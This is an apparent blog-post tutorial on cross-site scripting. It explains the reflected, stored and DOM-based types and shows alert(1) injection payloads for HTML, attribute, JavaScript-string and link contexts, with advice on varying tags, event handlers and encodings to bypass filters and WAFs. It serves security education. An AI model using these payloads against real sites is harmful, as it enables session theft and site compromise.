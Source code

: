 ```yaml
---
layout: post
title: Cross-site Scripting (XSS)
description: >

tags: [webapp]
---
```


  **Cross-site Scripting (XSS)** is a vulnerability which allows an attacker to execute malicious JavaScripts or html code via input fields on the victim machine to steal session cookies which can be used to hijack the victim account  

Cross-site Scripting (XSS) is an attack is performed with a crafted malicious Javascript inserted into the application user input which is then stored on the database of the application. Whenever any user visits that particular, the crafted Javascript gets executed and the user session information will be transferred to the attacker server.  

### What are the attacks can be performed?
- Allows an attacker to: 
 - Steal Session Cookies (Can hijack victim session)
 - Redirect users to malicious sites
 - Perform Phishing Attack
 - Prompt users to download Malwares (embedded within the code)
 - Website Defacement  
### Prone Vectors for XSS 
- User Input Fields
- HTTP Headers (User-Agent, Referrer etc) 
## Types of Cross-site Scripting (XSS)   
### Reflected Cross-site Scripting (XSS)
  In this type, the user input will be reflected only once. Whenever the user clicks on the link it gets executed. Hence, the malicious script will be executed once on the victim machines
{:.lead}  
### Stored Cross-site Scripting (XSS)
  In this type, the user input will be stored in the database on the same location. Whenever any user visits the injected page, the malicious script will be executed. Hence, the malicious script will be executed to every user whoever visits the injected page on the victim machine
{:.lead}  
### DOM-based Cross-site Scripting (XSS)
 In this type, the user input will be stored on the DOM Parser of the victim machine. Whenever the user visits the injected page, the script which is stored on the DOM Parser will be executed. Hence, the malicious script will be executed on the victim machine. Here the difference is, "It stores the malicious script on the victim browser (DOM Parser)"
{:.lead}  
### How Does it Work? 
Let's have look at different scenarios:

**Scenario 1:**  
Step1: User entered "Hello" to in search box and reflected the input as shown 

![](https://raw.githubusercontent.com/n0tak1dd1y/master/assets/webapp/1.PNG)

Step2: Press "CTRL+U" to see the source code and note the location of User input as shown  

![](https://raw.githubusercontent.com/n0tak1dd1y/master/assets/webapp/2.PNG)

Step3: Enter below payload in search box as shown
 ```js
<svg onload="alert(1)">
``` 
![](https://raw.githubusercontent.com/n0tak1dd1y/master/assets/webapp/3.PNG) 

Step4: Voila!!! got executed  

![](https://raw.githubusercontent.com/n0tak1dd1y/master/assets/webapp/4.PNG)

Step5: Now Press "CTRL+U" to see the how the script is reflected in the source code  

![](https://raw.githubusercontent.com/n0tak1dd1y/master/assets/webapp/5.PNG)

Step6: Note the script is placed between "<p></p>". It shows that we can pass all the tags which has the syntax as "<></>" or "<>"  
For Example: 
~~~html
<script>alert(1)</script>, <a href="javascript:alert(1)">hello</a>
<img src=1 onerror="alert(1)">
~~~
**Scenario 2:** 

Input as
~~~html
<input type=text name="Search" value="books">
~~~

Your search results are : <input type=text name="Search"  value="books">

**Attack**

Input as
~~~html
<input type=text name="Search" value="books"><script>alert(1)</script>">
<input type=text name="Search" value="books" onmouseover="alert(1)">
~~~

Output as

Your search results are :
~~~html
<input type=text name="Search" value="books"><script>alert(1)</script>">
~~~
Once the page loaded script will be executed
~~~html
<input type=text name=" Search" value="books" onmouseover="alert(1)">
~~~
When the user hover the mouse on books, script will be executed. 

These are called eventhandlers which are responsible for executing the function when an appropriate event is occurred. 
Voila!!! Our scripts are executed. 
In the scenario, the payloads can only be framed as shown: 
It should start with either: ">< or " eventhandlers 
These are the only way to fix the syntax with the malicious script. 
**Scenario 3:**

Input as
~~~html
<input type=text name="search" value="books">
~~~
Output as
~~~html
  Var search="books";
  Var search="books";
~~~

**Attack**

Input as
~~~html
<input type=text name="search" value="books";alert(1);//hell">
~~~
Output as
~~~html
   Var search="books";alert(1);//hell";
   Var search="books";alert(1);//hell";
~~~
Voila!!! our payload got executed

Here the logic is payload sits between " in the javascript syntax.

Hence, we need to fix it with javascript syntax.

Only the below shown payload can be used :
~~~html
  ";alert(1)//11
  ";alert(1)//11
~~~
**Scenario 4: Trigger XSS with links**

Input as
~~~html
   <input type=text name="link" value="any url">
~~~
Output as

Your Search results are as : any url 
**Attack**

Input as
~~~html
  <input type=text name="link" value="<a href=javascript:alert(1)">Click here</a>">
~~~
Output as

Your Search results are as :  Click Here 
Voila!!! The script gets executed on clicking the link
The above mentioned payload can be used to bypass many filters in the current scenarios 
There are many ways to use a particular payload, I have just shown few variations to understand how an xss payload can be created or framed.
Depends on the WAF, filters, we need to use different "EvenHandlers, HTML tags" to perform XSS.
Explore as many functions, tags as possible to be effective in XSS along with encoding techniques
